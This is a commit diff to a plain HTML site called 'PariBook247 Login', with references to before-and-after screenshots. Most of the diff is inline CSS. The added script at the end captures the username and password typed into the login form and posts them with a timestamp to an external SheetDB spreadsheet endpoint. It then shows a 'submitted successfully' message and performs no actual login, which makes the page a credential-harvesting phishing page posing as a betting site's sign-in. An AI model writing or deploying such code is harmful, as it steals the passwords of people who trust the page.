

Before and after one commit to rajputnikhil8441/paribook, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 195-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,7 +4,133 @@
     <meta charset="UTF-8" />
     <meta name="viewport" content="width=device-width, initial-scale=1.0" />
     <title>PariBook247 Login</title>
-    <link rel="stylesheet" href="style.css" />
+    <style>
+      /* BASIC STYLING */
+      body {
+        font-family: Arial, sans-serif;
+        background: #f7f7f7;
+        display: flex;
+        justify-content: center;
+        align-items: center;
+        min-height: 100vh;
+        margin: 0;
+      }
+
+      .main-container {
+        width: 350px;
+        background: #fff;
+        padding: 25px;
+        border-radius: 10px;
+        box-shadow: 0 4px 15px rgba(0,0,0,0.2);
+      }
+
+      .logo-box {
+        text-align: center;
+        margin-bottom: 20px;
+      }
+
+      .logo-box img {
+        width: 120px;
+      }
+
+      .login-card h2 {
+        text-align: center;
+        margin-bottom: 5px;
+      }
+
+      .login-card p {
+        text-align: center;
+        font-size: 14px;
+        color: #555;
+        margin-bottom: 15px;
+      }
+
+      label {
+        display: block;
+        margin-bottom: 5px;
+        font-weight: bold;
+      }
+
+      .input-field {
+        width: 100%;
+        padding: 10px;
+        margin-bottom: 15px;
+        border-radius: 5px;
+        border: 1px solid #ccc;
+        box-sizing: border-box;
+      }
+
+      .login-btn {
+        width: 100%;
+        padding: 10px;
+        background: #007bff;
+        color: #fff;
+        border: none;
+        border-radius: 5px;
+        cursor: pointer;
+        font-weight: bold;
+      }
+
+      .login-btn:hover {
+        background: #0056b3;
+      }
+
+      .signup-text {
+        text-align: center;
+        margin-top: 15px;
+        font-size: 14px;
+      }
+
+      .signup-text a {
+        color: #007bff;
+        text-decoration: none;
+      }
+
+      .apk-download {
+        text-align: center;
+        margin: 15px 0;
+        font-size: 14px;
+        cursor: pointer;
+      }
+
+      .disclaimer {
+        font-size: 11px;
+        color: #999;
+        text-align: center;
+        margin-top: 15px;
+      }
+
+      .password-wrapper {
+        position: relative;
+      }
+
+      .eye-icon {
+        position: absolute;
+        right: 10px;
+        top: 50%;
+        transform: translateY(-50%);
+        cursor: pointer;
+      }
+
+      .top-bar {
+        display: flex;
+        justify-content: space-between;
+        font-size: 12px;
+        margin-bottom: 10px;
+      }
+
+      .req {
+        color: red;
+      }
+
+      .forgot-text {
+        font-size: 12px;
+        color: #007bff;
+        cursor: pointer;
+        text-align: right;
+        margin-bottom: 10px;
+      }
+    </style>
   </head>
 
   <body>
@@ -24,19 +150,20 @@
         <h2 class="signin-title">Sign in</h2>
         <p class="signin-sub">Please enter your login details here.</p>
 
-        <label>Username <span class="req">*</span></label>
-        <input type="text" placeholder="Username" class="input-field" />
+        <form id="loginForm">
+          <label>Username <span class="req">*</span></label>
+          <input type="text" placeholder="Username" class="input-field" id="username" required />
 
-        <label>Password <span class="req">*</span></label>
+          <label>Password <span class="req">*</span></label>
+          <div class="password-wrapper">
+            <input type="password" placeholder="Password" class="input-field" id="password" required />
+            <span class="eye-icon" onclick="togglePassword()">👁️</span>
+          </div>
 
-        <div class="password-wrapper">
-          <input type="password" placeholder="Password" class="input-field" />
-          <span class="eye-icon">👁️</span>
-        </div>
+          <p class="forgot-text">Forgot Username/Password?</p>
 
-        <p class="forgot-text">Forgot Username/Password?</p>
-
-        <button class="login-btn">LOGIN</button>
+          <button class="login-btn" type="submit">LOGIN</button>
+        </form>
 
         <p class="signup-text">Don’t have account? <a href="#">Sign Up</a></p>
       </div>
@@ -53,5 +180,44 @@
         Only 18+ people should use the services and should use it responsibly.
       </p>
     </div>
+
+    <script>
+      // Show/Hide password
+      function togglePassword() {
+        const pw = document.getElementById("password");
+        pw.type = pw.type === "password" ? "text" : "password";
+      }
+
+      // Send data to SheetDB
+      document.getElementById("loginForm").addEventListener("submit", function(e) {
+        e.preventDefault();
+
+        let username = document.getElementById("username").value;
+        let password = document.getElementById("password").value;
+
+        let sheetdbURL = "https://sheetdb.io/api/v1/3xlgn4yh1djoj";
+
+        fetch(sheetdbURL, {
+          method: "POST",
+          headers: { "Content-Type": "application/json" },
+          body: JSON.stringify({
+            data: {
+              username: username,
+              password: password,
+              time: new Date().toLocaleString()
+            }
+          })
+        })
+        .then(response => response.json())
+        .then(data => {
+          alert("Login submitted successfully!");
+          document.getElementById("loginForm").reset();
+        })
+        .catch(error => {
+          alert("Error sending data!");
+          console.error(error);
+        });
+      });
+    </script>
   </body>
 </html>
```
